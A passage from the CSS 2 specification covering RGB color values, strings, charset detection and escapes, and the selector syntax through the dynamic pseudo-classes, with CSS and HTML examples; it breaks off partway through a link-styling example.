> **Example:** ```css
> em { color: #f00 }              /* #rgb */
> em { color: #ff0000 }           /* #rrggbb */
> em { color: rgb(255,0,0) }
> em { color: rgb(100%, 0%, 0%) }
> ```

The format of an RGB value in hexadecimal notation is a `#` immediately followed by either three or six hexadecimal characters. The three-digit RGB notation (#rgb) is converted into six-digit form (#rrggbb) by replicating digits, not by adding zeros. For example, #fb0 expands to #ffbb00. This ensures that white (#ffffff) can be specified with the short notation (#fff) and removes any dependencies on the color depth of the display.

The format of an RGB value in the functional notation is `rgb(` followed by a comma-separated list of three numerical values (either three integer values or three percentage values) followed by `)`. The integer value 255 corresponds to 100%, and to F or FF in the hexadecimal notation: rgb(255,255,255) = rgb(100%,100%,100%) = #FFF. [White space](#css2:whitespace) characters are allowed around the numerical values.

All RGB colors are specified in the sRGB color space (see [SRGB]). User agents may vary in the fidelity with which they represent these colors, but using sRGB provides an unambiguous and objectively measurable definition of what the color should be, which can be related to international standards (see [COLORIMETRY]).

[Conforming user agents](#css2:conformance) may limit their color-displaying efforts to performing a gamma-correction on them. sRGB specifies a display gamma of 2.2 under specified viewing conditions. User agents should adjust the colors given in CSS such that, in combination with an output device’s "natural" display gamma, an effective display gamma of 2.2 is produced. Note that only colors specified in CSS are affected; e.g., images are expected to carry their own color information.

Values outside the device gamut should be clipped or mapped into the gamut when the gamut is known: the red, green, and blue values must be changed to fall within the range supported by the device. User agents may perform higher quality mapping of colors from one gamut to another. For a typical CRT monitor, whose device gamut is the same as sRGB, the four rules below are equivalent:

> **Example:** ```css
> em { color: rgb(255,0,0) }       /* integer range 0 - 255 */
> em { color: rgb(300,0,0) }       /* clipped to rgb(255,0,0) */
> em { color: rgb(255,-10,0) }     /* clipped to rgb(255,0,0) */
> em { color: rgb(110%, 0%, 0%) }  /* clipped to rgb(100%,0%,0%) */
> ```

Other devices, such as printers, have different gamuts than sRGB; some colors outside the 0..255 sRGB range will be representable (inside the device gamut), while other colors inside the 0..255 sRGB range will be outside the device gamut and will thus be mapped.

> **Note:** ***Note.** Mapping or clipping of color values should be done to the actual device gamut if known (which may be larger or smaller than 0..255).*

##### 4.3.7. Strings {#css2:strings}

**Strings** can either be written with double quotes or with single quotes. Double quotes cannot occur inside double quotes, unless escaped (e.g., as `\"` or as `\22`). Analogously for single quotes (e.g., "'" or "\27").

> **Example:** ```
> "this is a 'string'"
> "this is a \"string\""
> 'this is a "string"'
> 'this is a \'string\''
> ```

A string cannot directly contain a newline. To include a newline in a string, use an escape representing the line feed character in ISO-10646 (U+000A), such as "\A" or "\00000a". This character represents the generic notion of "newline" in CSS. See the `content` property for an example.

It is possible to break strings over several lines, for aesthetic or other reasons, but in such a case the newline itself has to be escaped with a backslash (\). For instance, the following two selectors are exactly the same:

> **Example:** ```css
> a[title="a not s\
> o very long title"] {/*...*/}
> a[title="a not so very long title"] {/*...*/}
> ```

##### 4.3.8. Unsupported Values {#css2:unsupported-values}

If a UA does not support a particular value, it should *ignore* that value when parsing style sheets, as if that value was an [illegal value](#css2:illegalvalues). For example:

> **Example:** ```css
> h3 {
>   display: inline;
>   display: run-in;
> }
> ```

A UA that supports the `run-in` value for the `display` property will accept the first display declaration and then "write over" that value with the second display declaration. A UA that does not support the `run-in` value will process the first display declaration and ignore the second display declaration.

#### 4.4. CSS style sheet representation {#css2:charset}

A CSS style sheet is a sequence of characters from the Universal Character Set (see [ISO10646]). For transmission and storage, these characters must be **encoded** by a character encoding that supports the set of characters available in US-ASCII (e.g., UTF-8, ISO 8859-x, SHIFT JIS, etc.). For a good introduction to character sets and character encodings, please consult the HTML 4 specification ([HTML401], chapter 5). See also the XML 1.0 specification ([XML10], sections 2.2 and 4.3.3, and Appendix F).

When a style sheet is embedded in another document, such as in the STYLE element or "style" attribute of HTML, the style sheet shares the character encoding of the whole document.

When a style sheet resides in a separate file, user agents must observe the following priorities when determining a style sheet’s character encoding (from highest priority to lowest):

1. An HTTP "charset" parameter in a "Content-Type" field (or similar parameters in other protocols)
2. BOM and/or @charset (see below)
3. `<link charset="">` or other metadata from the linking mechanism (if any)
4. charset of referring style sheet or document (if any)
5. Assume UTF-8

Authors using an @charset rule must place the rule at the very beginning of the style sheet, preceded by no characters. (If a byte order mark is appropriate for the encoding used, it may precede the @charset rule.)

After **"@charset"**, authors specify the name of a character encoding (in quotes). For example:

```css
@charset "ISO-8859-1";
```

@charset must be written literally, i.e., the 10 characters '@charset "' (lowercase, no backslash escapes), followed by the encoding name, followed by `";`.

The name must be a charset name as described in the IANA registry. See [CHARSETS] for a complete list of charsets. Authors should use the charset names marked as "preferred MIME name" in the IANA registry.

User agents must support at least the UTF-8 encoding.

User agents must ignore any @charset rule not at the beginning of the style sheet. When user agents detect the character encoding using the BOM and/or the @charset rule, they should follow the following rules:

- Except as specified in these rules, all @charset rules are ignored.
- The encoding is detected based on the stream of bytes that begins the style sheet. The following table gives a set of possibilities for initial byte sequences (written in hexadecimal). The first row that matches the beginning of the style sheet gives the result of encoding detection based on the BOM and/or @charset rule. If no rows match, the encoding cannot be detected based on the BOM and/or @charset rule. The notation (...)* refers to repetition for which the best match is the one that repeats as few times as possible. The bytes marked "XX" are those used to determine the name of the encoding, by treating them, in the order given, as a sequence of ASCII characters. Bytes marked "YY" are similar, but need to be transcoded into ASCII as noted. User agents may ignore entries in the table if they do not support any encodings relevant to the entry.

  | Initial Bytes | Result |
  | --- | --- |
  | EF BB BF 40 63 68 61 72 73 65 74 20 22 (XX)* 22 3B | as specified |
  | EF BB BF | UTF-8 |
  | 40 63 68 61 72 73 65 74 20 22 (XX)* 22 3B | as specified |
  | FE FF 00 40 00 63 00 68 00 61 00 72 00 73 00 65 00 74 00 20 00 22 (00 XX)* 00 22 00 3B | as specified (with BE endianness if not specified) |
  | 00 40 00 63 00 68 00 61 00 72 00 73 00 65 00 74 00 20 00 22 (00 XX)* 00 22 00 3B | as specified (with BE endianness if not specified) |
  | FF FE 40 00 63 00 68 00 61 00 72 00 73 00 65 00 74 00 20 00 22 00 (XX 00)* 22 00 3B 00 | as specified (with LE endianness if not specified) |
  | 40 00 63 00 68 00 61 00 72 00 73 00 65 00 74 00 20 00 22 00 (XX 00)* 22 00 3B 00 | as specified (with LE endianness if not specified) |
  | 00 00 FE FF 00 00 00 40 00 00 00 63 00 00 00 68 00 00 00 61 00 00 00 72 00 00 00 73 00 00 00 65 00 00 00 74 00 00 00 20 00 00 00 22 (00 00 00 XX)* 00 00 00 22 00 00 00 3B | as specified (with BE endianness if not specified) |
  | 00 00 00 40 00 00 00 63 00 00 00 68 00 00 00 61 00 00 00 72 00 00 00 73 00 00 00 65 00 00 00 74 00 00 00 20 00 00 00 22 (00 00 00 XX)* 00 00 00 22 00 00 00 3B | as specified (with BE endianness if not specified) |
  | 00 00 FF FE 00 00 40 00 00 00 63 00 00 00 68 00 00 00 61 00 00 00 72 00 00 00 73 00 00 00 65 00 00 00 74 00 00 00 20 00 00 00 22 00 (00 00 XX 00)* 00 00 22 00 00 00 3B 00 | as specified (with 2143 endianness if not specified) |
  | 00 00 40 00 00 00 63 00 00 00 68 00 00 00 61 00 00 00 72 00 00 00 73 00 00 00 65 00 00 00 74 00 00 00 20 00 00 00 22 00 (00 00 XX 00)* 00 00 22 00 00 00 3B 00 | as specified (with 2143 endianness if not specified) |
  | FE FF 00 00 00 40 00 00 00 63 00 00 00 68 00 00 00 61 00 00 00 72 00 00 00 73 00 00 00 65 00 00 00 74 00 00 00 20 00 00 00 22 00 00 (00 XX 00 00)* 00 22 00 00 00 3B 00 00 | as specified (with 3412 endianness if not specified) |
  | 00 40 00 00 00 63 00 00 00 68 00 00 00 61 00 00 00 72 00 00 00 73 00 00 00 65 00 00 00 74 00 00 00 20 00 00 00 22 00 00 (00 XX 00 00)* 00 22 00 00 00 3B 00 00 | as specified (with 3412 endianness if not specified) |
  | FF FE 00 00 40 00 00 00 63 00 00 00 68 00 00 00 61 00 00 00 72 00 00 00 73 00 00 00 65 00 00 00 74 00 00 00 20 00 00 00 22 00 00 00 (XX 00 00 00)* 22 00 00 00 3B 00 00 00 | as specified (with LE endianness if not specified) |
  | 40 00 00 00 63 00 00 00 68 00 00 00 61 00 00 00 72 00 00 00 73 00 00 00 65 00 00 00 74 00 00 00 20 00 00 00 22 00 00 00 (XX 00 00 00)* 22 00 00 00 3B 00 00 00 | as specified (with LE endianness if not specified) |
  | 00 00 FE FF | UTF-32-BE |
  | FF FE 00 00 | UTF-32-LE |
  | 00 00 FF FE | UTF-32-2143 |
  | FE FF 00 00 | UTF-32-3412 |
  | FE FF | UTF-16-BE |
  | FF FE | UTF-16-LE |
  | 7C 83 88 81 99 A2 85 A3 40 7F (YY)* 7F 5E | as specified, transcoded from EBCDIC to ASCII |
  | AE 83 88 81 99 A2 85 A3 40 FC (YY)* FC 5E | as specified, transcoded from IBM1026 to ASCII |
  | 00 63 68 61 72 73 65 74 20 22 (YY)* 22 3B | as specified, transcoded from GSM 03.38 to ASCII |
  | analogous patterns | User agents may support additional, analogous, patterns if they support encodings that are not handled by the patterns here |
- If the encoding is detected based on one of the entries in the table above marked "as specified", the user agent ignores the style sheet if it does not parse an appropriate @charset rule at the beginning of the stream of characters resulting from decoding in the chosen @charset. This ensures that:

  - @charset rules should only function if they are in the encoding of the style sheet,
  - byte order marks are ignored only in encodings that support a byte order mark, and
  - encoding names cannot contain newlines.

User agents must ignore style sheets in unknown encodings.

##### 4.4.1. Referring to characters not represented in a character encoding {#css2:escaping}

A style sheet may have to refer to characters that cannot be represented in the current character encoding. These characters must be written as escaped references to ISO 10646 characters. These escapes serve the same purpose as numeric character references in HTML or XML documents (see [HTML401], chapters 5 and 25).

The character escape mechanism should be used when only a few characters must be represented this way. If most of a style sheet requires escaping, authors should encode it with a more appropriate encoding (e.g., if the style sheet contains a lot of Greek characters, authors might use "ISO-8859-7" or "UTF-8").

Intermediate processors using a different character encoding may translate these escaped sequences into byte sequences of that encoding. Intermediate processors must not, on the other hand, alter escape sequences that cancel the special meaning of an ASCII character.

[Conforming user agents](#css2:conformance) must correctly map to ISO-10646 all characters in any character encodings that they recognize (or they must behave as if they did).

For example, a style sheet transmitted as ISO-8859-1 (Latin-1) cannot contain Greek letters directly: "κουρος" (Greek: "kouros") has to be written as "\3BA\3BF\3C5\3C1\3BF\3C2".

> **Note:** ***Note.** In HTML 4, numeric character references are interpreted in "style" attribute values but not in the content of the STYLE element. Because of this asymmetry, we recommend that authors use the CSS character escape mechanism rather than numeric character references for both the "style" attribute and the STYLE element. For example, we recommend:*
>
> ```html
> <SPAN style="font-family: L\FC beck">...</SPAN>
> ```
>
> *rather than:*
>
> ```html
> <SPAN style="font-family: L&#252;beck">...</SPAN>
> ```

### 5. Selectors {#css2:selector}

#### 5.1. Pattern matching {#css2:pattern-matching}

In CSS, pattern matching rules determine which style rules apply to elements in the document tree. These patterns, called selectors, may range from simple element names to rich contextual patterns. If all conditions in the pattern are true for a certain element, the **selector matches** the element.

The case-sensitivity of document language element names in selectors depends on the document language. For example, in HTML, element names are case-insensitive, but in XML they are case-sensitive.

The following table summarizes CSS 2 selector syntax:

| Pattern | Meaning | Described in section |
| --- | --- | --- |
| * | Matches any element. | [Universal selector](#css2:universal-selector) |
| E | Matches any E element (i.e., an element of type E). | [Type selectors](#css2:type-selectors) |
| E F | Matches any F element that is a descendant of an E element. | [Descendant selectors](#css2:descendant-selectors) |
| E > F | Matches any F element that is a child of an element E. | [Child selectors](#css2:child-selectors) |
| E:first-child | Matches element E when E is the first child of its parent. | [The :first-child pseudo-class](#css2:first-child) |
| E:link E:visited | Matches element E if E is the source anchor of a hyperlink of which the target is not yet visited (:link) or already visited (:visited). | [The link pseudo-classes](#css2:link-pseudo-classes) |
| E:active E:hover E:focus | Matches E during certain user actions. | [The dynamic pseudo-classes](#css2:dynamic-pseudo-classes) |
| E:lang(c) | Matches element of type E if it is in (human) language c (the document language specifies how language is determined). | [The :lang() pseudo-class](#css2:lang) |
| E + F | Matches any F element immediately preceded by a sibling element E. | [Adjacent selectors](#css2:adjacent-selectors) |
| E[foo] | Matches any E element with the "foo" attribute set (whatever the value). | [Attribute selectors](#css2:attribute-selectors) |
| E[foo="warning"] | Matches any E element whose "foo" attribute value is exactly equal to "warning". | [Attribute selectors](#css2:attribute-selectors) |
| E[foo~="warning"] | Matches any E element whose "foo" attribute value is a list of space-separated values, one of which is exactly equal to "warning". | [Attribute selectors](#css2:attribute-selectors) |
| E[lang\|="en"] | Matches any E element whose "lang" attribute has a hyphen-separated list of values beginning (from the left) with "en". | [Attribute selectors](#css2:attribute-selectors) |
| DIV.warning | *Language specific.* (In HTML, the same as DIV[class~="warning"].) | [Class selectors](#css2:class-html) |
| E#myid | Matches any E element with ID equal to "myid". | [ID selectors](#css2:id-selectors) |

#### 5.2. Selector syntax {#css2:selector-syntax}

A **simple selector** is either a [type selector](#css2:type-selectors) or [universal selector](#css2:universal-selector) followed immediately by zero or more [attribute selectors](#css2:attribute-selectors), [ID selectors](#css2:id-selectors), or [pseudo-classes](#css2:pseudo-classes), in any order. The simple selector matches if all of its components match.

> **Note:** the terminology used here in CSS 2 is different from what is used in CSS3. For example, a "simple selector" refers to a smaller part of a selector in CSS3 than in CSS 2. See the CSS3 Selectors module [SELECTORS-3].

A **selector** is a chain of one or more simple selectors separated by combinators. **Combinators** are: white space, ">", and "+". White space may appear between a combinator and the simple selectors around it.

The elements of the document tree that match a selector are called **subjects** of the selector. A selector consisting of a single simple selector matches any element satisfying its requirements. Prepending a simple selector and combinator to a chain imposes additional matching constraints, so the subjects of a selector are always a subset of the elements matching the last simple selector.

One [pseudo-element](#css2:pseudo-elements) may be appended to the last simple selector in a chain, in which case the style information applies to a subpart of each subject.

##### 5.2.1. Grouping {#css2:grouping}

When several selectors share the same declarations, they may be grouped into a comma-separated list.

> **Example:** In this example, we condense three rules with identical declarations into one. Thus,
>
> ```css
> h1 { font-family: sans-serif }
> h2 { font-family: sans-serif }
> h3 { font-family: sans-serif }
> ```
>
> is equivalent to:
>
> ```css
> h1, h2, h3 { font-family: sans-serif }
> ```

CSS offers other "shorthand" mechanisms as well, including  **[multiple declarations](#css2:declaration)** and [shorthand properties](#css2:shorthand).

#### 5.3. Universal selector {#css2:universal-selector}

The **universal selector**, written "*", matches the name of any element type. It matches any single element in the document tree.

If the universal selector is not the only component of a simple selector, the "*" may be omitted. For example:

- `*[lang=fr]` and `[lang=fr]` are equivalent.
- `*.warning` and `.warning` are equivalent.
- `*#myid` and `#myid` are equivalent.

#### 5.4. Type selectors {#css2:type-selectors}

A ***type selector*** matches the name of a document language element type. A type selector matches every instance of the element type in the document tree.

> **Example:** The following rule matches all H1 elements in the document tree:
>
> ```css
> h1 { font-family: sans-serif }
> ```

#### 5.5. Descendant selectors {#css2:descendant-selectors}

At times, authors may want selectors to match an element that is the descendant of another element in the document tree (e.g., "Match those EM elements that are contained by an H1 element"). **Descendant selectors** express such a relationship in a pattern. A descendant selector is made up of two or more selectors separated by [white space](#css2:whitespace). A descendant selector of the form "`A B`" matches when an element `B` is an arbitrary descendant of some ancestor element `A`.

> **Example:** For example, consider the following rules:
>
> ```css
> h1 { color: red }
> em { color: red }
> ```
>
> Although the intention of these rules is to add emphasis to text by changing its color, the effect will be lost in a case such as:
>
> ```html
> <H1>This headline is <EM>very</EM> important</H1>
> ```
>
> We address this case by supplementing the previous rules with a rule that sets the text color to blue whenever an EM occurs anywhere within an H1:
>
> ```css
> h1 { color: red }
> em { color: red }
> h1 em { color: blue }
> ```
>
> The third rule will match the EM in the following fragment:
>
> ```html
> <H1>This <SPAN class="myclass">headline
> is <EM>very</EM> important</SPAN></H1>
> ```

> **Example:** The following selector:
>
> ```
> div * p
> ```
>
> matches a P element that is a grandchild or later descendant of a DIV element. Note the white space on either side of the "*" is not part of the universal selector; the white space is a combinator indicating that the DIV must be the ancestor of some element, and that that element must be an ancestor of the P.

> **Example:** The selector in the following rule, which combines descendant and [attribute selectors](#css2:attribute-selectors), matches any element that (1) has the "href" attribute set and (2) is inside a P that is itself inside a DIV:
>
> ```
> div p *[href]
> ```

#### 5.6. Child selectors {#css2:child-selectors}

A ***child selector*** matches when an element is the child of some element. A child selector is made up of two or more selectors separated by ">".

> **Example:** The following rule sets the style of all P elements that are children of BODY:
>
> ```css
> body > P { line-height: 1.3 }
> ```

> **Example:** The following example combines descendant selectors and child selectors:
>
> ```
> div ol>li p
> ```
>
> It matches a P element that is a descendant of an LI; the LI element must be the child of an OL element; the OL element must be a descendant of a DIV. Notice that the optional white space around the ">" combinator has been left out.

For information on selecting the first child of an element, please see the section on the [:first-child](#css2:first-child) pseudo-class below.

#### 5.7. Adjacent sibling selectors {#css2:adjacent-selectors}

Adjacent sibling selectors have the following syntax: E1 + E2, where E2 is the subject of the selector. The selector matches if E1 and E2 share the same parent in the document tree and E1 immediately precedes E2, ignoring non-element nodes (such as text nodes and comments).

> **Example:** Thus, the following rule states that when a P element immediately follows a MATH element, it should not be indented:
>
> ```css
> math + p { text-indent: 0 }
> ```
>
> The next example reduces the vertical space separating an H1 and an H2 that immediately follows it:
>
> ```css
> h1 + h2 { margin-top: -5mm }
> ```

> **Example:** The following rule is similar to the one in the previous example, except that it adds a class selector. Thus, special formatting only occurs when H1 has `class="opener"`:
>
> ```css
> h1.opener + h2 { margin-top: -5mm }
> ```

#### 5.8. Attribute selectors {#css2:attribute-selectors}

CSS 2 allows authors to specify rules that match elements which have certain attributes defined in the source document.

##### 5.8.1. Matching attributes and attribute values {#css2:matching-attrs}

Attribute selectors may match in four ways:

**`[att]`**

: Match when the element sets the "att" attribute, whatever the value of the attribute.

****`[att=val]`****

: Match when the element’s "att" attribute value is exactly "val".

****`[att~=val]`****

: Represents an element with the `att` attribute whose value is a white space-separated list of words, one of which is exactly "val". If "val" contains white space, it will never represent anything (since the words are *separated* by spaces). If "val" is the empty string, it will never represent anything either.

****`[att|=val]`****

: Represents an element with the `att` attribute, its value either being exactly "val" or beginning with "val" immediately followed by "-" (U+002D). This is primarily intended to allow language subcode matches (e.g., the `hreflang` attribute on the `a` element in HTML) as described in BCP 47 ([BCP47]) or its successor. For `lang` (or `xml:lang`) language subcode matching, please see [the `:lang` pseudo-class](#css2:lang).

Attribute values must be identifiers or strings. The case-sensitivity of attribute names and values in selectors depends on the document language.

> **Example:** For example, the following attribute selector matches all H1 elements that specify the "title" attribute, whatever its value:
>
> ```css
> h1[title] { color: blue; }
> ```

> **Example:** In the following example, the selector matches all SPAN elements whose "class" attribute has exactly the value "example":
>
> ```css
> span[class=example] { color: blue; }
> ```

Multiple attribute selectors can be used to refer to several attributes of an element, or even several times to the same attribute.

> **Example:** Here, the selector matches all SPAN elements whose "hello" attribute has exactly the value "Cleveland" and whose "goodbye" attribute has exactly the value "Columbus":
>
> ```css
> span[hello="Cleveland"][goodbye="Columbus"] { color: blue; }
> ```

> **Example:** The following selectors illustrate the differences between "=" and "~=". The first selector will match, for example, the value "copyright copyleft copyeditor" for the "rel" attribute. The second selector will only match when the "href" attribute has the value "https://www.w3.org/".
>
> ```
> a[rel~="copyright"]
> a[href="https://www.w3.org/"]
> ```

> **Example:** The following rule hides all elements for which the value of the "lang" attribute is "fr" (i.e., the language is French).
>
> ```css
> *[lang=fr] { display : none }
> ```

> **Example:** The following rule will match for values of the "lang" attribute that begin with "en", including "en", "en-US", and "en-cockney":
>
> ```css
> *[lang|="en"] { color : red }
> ```

##### 5.8.2. Default attribute values in DTDs {#css2:default-attrs}

Matching takes place on attribute values in the document tree. Default attribute values may be defined in a DTD or elsewhere, but cannot always be selected by attribute selectors. Style sheets should be designed so that they work even if the default values are not included in the document tree.

More precisely, a UA may, but is *not* required to, read an "external subset" of the DTD but *is* required to look for default attribute values in the document’s "internal subset." (See [XML10] for definitions of these subsets.) Depending on the UA, a default attribute value defined in the external subset of the DTD might or might not appear in the document tree.

A UA that recognizes an XML namespace [XML-NAMES] may, but is not required to, use its knowledge of that namespace to treat default attribute values as if they were present in the document. (E.g., an XHTML UA is not required to use its built-in knowledge of the XHTML DTD.)

> **Note:** that, typically, implementations choose to ignore external subsets.

> **Example:** For example, consider an element EXAMPLE with an attribute "notation" that has a default value of "decimal". The DTD fragment might be
>
> ```dtd
> <!ATTLIST EXAMPLE notation (decimal,octal) "decimal">
> ```
>
> If the style sheet contains the rules
>
> ```css
> EXAMPLE[notation=decimal] { /*... default property settings ...*/ }
> EXAMPLE[notation=octal]   { /*... other settings...*/ }
> ```
>
> the first rule might not match elements whose "notation" attribute is set by default, i.e., not set explicitly. To catch all cases, the attribute selector for the default value must be dropped:
>
> ```css
> EXAMPLE                   { /*... default property settings ...*/ }
> EXAMPLE[notation=octal]   { /*... other settings...*/ }
> ```
>
> Here, because the selector `EXAMPLE[notation=octal]` is more [specific](#css2:specificity) than the type selector alone, the style declarations in the second rule will override those in the first for elements that have a "notation" attribute value of "octal". Care has to be taken that all property declarations that are to apply only to the default case are overridden in the non-default cases' style rules.

##### 5.8.3. Class selectors {#css2:class-html}

Working with HTML, authors may use the period (`.`) notation as an alternative to the `~=` notation when representing the `class` attribute. Thus, for HTML, `div.value` and `div[class~=value]` have the same meaning. The attribute value must immediately follow the "period" (`.`). UAs may apply selectors using the period (.) notation in XML documents if the UA has namespace specific knowledge that allows it to determine which attribute is the "class" attribute for the respective namespace. One such example of namespace specific knowledge is the prose in the specification for a particular namespace (e.g., SVG 1.1 [SVG11] describes the [SVG "class" attribute](https://www.w3.org/TR/2003/REC-SVG11-20030114/styling.html#ClassAttribute) and how a UA should interpret it, and similarly MathML 3.0 [MATHML3] describes the [MathML "class" attribute](https://www.w3.org/TR/MathML2/chapter2.html#fund.globatt).)

> **Example:** For example, we can assign style information to all elements with `class~="pastoral"` as follows:
>
> ```css
> *.pastoral { color: green }  /* all elements with class~=pastoral */
> ```
>
> or just
>
> ```css
> .pastoral { color: green }  /* all elements with class~=pastoral */
> ```
>
> The following assigns style only to H1 elements with `class~="pastoral"`:
>
> ```css
> H1.pastoral { color: green }  /* H1 elements with class~=pastoral */
> ```
>
> Given these rules, the first H1 instance below would not have green text, while the second would:
>
> ```
> <H1>Not green</H1>
> <H1 class="pastoral">Very green</H1>
> ```

To match a subset of "class" values, each value must be preceded by a ".".

> **Example:** For example, the following rule matches any P element whose "class" attribute has been assigned a list of space-separated values that includes "pastoral" and "marine":
>
> ```css
> p.marine.pastoral { color: green }
> ```
>
> This rule matches when `class="pastoral blue aqua marine"` but does not match for `class="pastoral blue"`.

> **Note:** ***Note.** CSS gives so much power to the "class" attribute, that authors could conceivably design their own "document language" based on elements with almost no associated presentation (such as DIV and SPAN in HTML) and assigning style information through the "class" attribute. Authors should avoid this practice since the structural elements of a document language often have recognized and accepted meanings and author-defined classes may not.*

> **Note:** ***Note:** If an element has multiple class attributes, their values must be concatenated with spaces between the values before searching for the class. As of this time the working group is not aware of any manner in which this situation can be reached, however, so this behavior is explicitly non-normative in this specification.*

#### 5.9. ID selectors {#css2:id-selectors}

Document languages may contain attributes that are declared to be of type ID. What makes attributes of type ID special is that no two such attributes can have the same value; whatever the document language, an ID attribute can be used to uniquely identify its element. In HTML all ID attributes are named "id"; XML applications may name ID attributes differently, but the same restriction applies.

The ID attribute of a document language allows authors to assign an identifier to one element instance in the document tree. CSS ID selectors match an element instance based on its identifier. A CSS ID selector contains a "#" immediately followed by the ID value, which must be an identifier.

> **Note:** that CSS does not specify how a UA knows the ID attribute of an element. The UA may, e.g., read a document’s DTD, have the information hard-coded or ask the user.

> **Example:** The following ID selector matches the H1 element whose ID attribute has the value "chapter1":
>
> ```css
> h1#chapter1 { text-align: center }
> ```

> **Example:** In the following example, the style rule matches the element that has the ID value "z98y". The rule will thus match for the P element:
>
> ```
> <HEAD>
>   <TITLE>Match P</TITLE>
>   <STYLE type="text/css">
>     *#z98y { letter-spacing: 0.3em }
>   </STYLE>
> </HEAD>
> <BODY>
>    <P id=z98y>Wide text</P>
> </BODY>
> ```
>
> In the next example, however, the style rule will only match an H1 element that has an ID value of "z98y". The rule will not match the P element in this example:
>
> ```
> <HEAD>
>   <TITLE>Match H1 only</TITLE>
>   <STYLE type="text/css">
>     H1#z98y { letter-spacing: 0.5em }
>   </STYLE>
> </HEAD>
> <BODY>
>    <P id=z98y>Wide text</P>
> </BODY>
> ```

ID selectors have a higher specificity than attribute selectors. For example, in HTML, the selector `#p123` is more specific than `[id=p123]` in terms of the [cascade](#css2:assigning).

> **Note:** ***Note.** In XML 1.0 [XML10], the information about which attribute contains an element’s IDs is contained in a DTD. When parsing XML, UAs do not always read the DTD, and thus may not know what the ID of an element is. If a style sheet designer knows or suspects that this will be the case, they should use normal attribute selectors instead: `[name=p371]` instead of `#p371`. However, the cascading order of normal attribute selectors is different from ID selectors. It may be necessary to add an "!important" priority to the declarations: `[name=p371] {color: red ! important}`.*

If an element has multiple ID attributes, all of them must be treated as IDs for that element for the purposes of the ID selector. Such a situation could be reached using mixtures of xml:id [XML-ID], DOM3 Core [DOM-LEVEL-3-CORE], XML DTDs [XML10] and namespace-specific knowledge.

#### 5.10. Pseudo-elements and pseudo-classes {#css2:pseudo-elements}

In CSS 2, style is normally attached to an element based on its position in the document tree. This simple model is sufficient for many cases, but some common publishing scenarios may not be possible due to the structure of the document tree. For instance, in HTML 4 (see [HTML401]), no element refers to the first line of a paragraph, and therefore no simple CSS selector may refer to it.

CSS introduces the concepts of **pseudo-elements** and **pseudo-classes** to permit formatting based on information that lies outside the document tree.

- Pseudo-elements create abstractions about the document tree beyond those specified by the document language. For instance, document languages do not offer mechanisms to access the first letter or first line of an element’s content. CSS pseudo-elements allow style sheet designers to refer to this otherwise inaccessible information. Pseudo-elements may also provide style sheet designers a way to assign style to content that does not exist in the source document (e.g., the [:before and :after](#css2:before-after-content) pseudo-elements give access to generated content).
- Pseudo-classes classify elements on characteristics other than their name, attributes or content; in principle characteristics that cannot be deduced from the document tree. Pseudo-classes may be dynamic, in the sense that an element may acquire or lose a pseudo-class while a user interacts with the document. The exceptions are `:first-child`, which *can* be deduced from the document tree, and `:lang()`, which can be deduced from the document tree in some cases.

Neither pseudo-elements nor pseudo-classes appear in the document source or document tree.

Pseudo-classes are allowed anywhere in selectors while pseudo-elements may only be appended after the last simple selector of the selector.

Pseudo-element and pseudo-class names are case-insensitive.

Some pseudo-classes are mutually exclusive, while others can be applied simultaneously to the same element. In case of conflicting rules, the normal [cascading order](#css2:cascading-order) determines the outcome.

#### 5.11. Pseudo-classes {#css2:pseudo-class-selectors}

##### 5.11.1. :first-child pseudo-class {#css2:first-child}

The **:first-child** pseudo-class matches an element that is the first child element of some other element.

> **Example:** In the following example, the selector matches any P element that is the first child of a DIV element. The rule suppresses indentation for the first paragraph of a DIV:
>
> ```css
> div > p:first-child { text-indent: 0 }
> ```
>
> This selector would match the P inside the DIV of the following fragment:
>
> ```html
> <P> The last P before the note.
> <DIV class="note">
>    <P> The first P inside the note.
> </DIV>
> ```
>
> but would not match the second P in the following fragment:
>
> ```html
> <P> The last P before the note.
> <DIV class="note">
>    <H2>Note</H2>
>    <P> The first P inside the note.
> </DIV>
> ```

> **Example:** The following rule sets the font weight to `bold` for any EM element that is some descendant of a P element that is a first child:
>
> ```css
> p:first-child em { font-weight : bold }
> ```

Note that since anonymous boxes are not part of the document tree, they are not counted when calculating the first child.

> **Example:** For example, the EM in:
>
> ```
> <P>abc <EM>default</EM>
> ```
>
> is the first child of the P.

The following two selectors are equivalent:

```
* > a:first-child   /* A is first child of any element */
a:first-child       /* Same */
```

##### 5.11.2. The link pseudo-classes: **:link** and **:visited** {#css2:link-pseudo-classes}

User agents commonly display unvisited links differently from previously visited ones. CSS provides the pseudo-classes `:link` and `:visited` to distinguish them:

- The :link pseudo-class applies for links that have not yet been visited.
- The :visited pseudo-class applies once the link has been visited by the user.

UAs may return a visited link to the (unvisited) `:link` state at some point.

The two states are mutually exclusive.

The document language determines which elements are hyperlink source anchors. For example, in HTML4, the link pseudo-classes apply to A elements with an "href" attribute. Thus, the following two CSS 2 declarations have similar effect:

```css
a:link { color: red }
:link  { color: red }
```

> **Example:** If the following link:
>
> ```html
> <A class="external" href="http://out.side/">external link</A>
> ```
>
> has been visited, this rule:
>
> ```css
> a.external:visited { color: blue }
> ```
>
> will cause it to be blue.

> **Note:** . It is possible for style sheet authors to abuse the :link and :visited pseudo-classes to determine which sites a user has visited without the user’s consent.

UAs may therefore treat all links as unvisited links, or implement other measures to preserve the user’s privacy while rendering visited and unvisited links differently. See [P3P] for more information about handling privacy.

##### 5.11.3. The dynamic pseudo-classes: **:hover**, **:active**, and **:focus** {#css2:dynamic-pseudo-classes}

Interactive user agents sometimes change the rendering in response to user actions. CSS provides three pseudo-classes for common cases:

- The :hover pseudo-class applies while the user designates an element (with some pointing device), but does not activate it. For example, a visual user agent could apply this pseudo-class when the cursor (mouse pointer) hovers over a box generated by the element. User agents not supporting interactive media do not have to support this pseudo-class. Some conforming user agents supporting interactive media may not be able to support this pseudo-class (e.g., a pen device).
- The :active pseudo-class applies while an element is being activated by the user. For example, between the times the user presses the mouse button and releases it.
- The :focus pseudo-class applies while an element has the focus (accepts keyboard events or other forms of text input).

An element may match several pseudo-classes at the same time.

CSS does not define which elements may be in the above states, or how the states are entered and left. Scripting may change whether elements react to user events or not, and different devices and UAs may have different ways of pointing to, or activating elements.

CSS 2 does not define if the parent of an element that is `:active` or `:hover` is also in that state.

User agents are not required to reflow a currently displayed document due to pseudo-class transitions. For instance, a style sheet may specify that the `font-size` of an :active link should be larger than that of an inactive link, but since this may cause letters to change position when the reader selects the link, a UA may ignore the corresponding style rule.

> **Example:** ```css
> a:link    { color: red }    /* unvisited links */
> a:visited { color: blue }   /* visited links   */
> a:hover   { color: yellow } /* user hovers     */
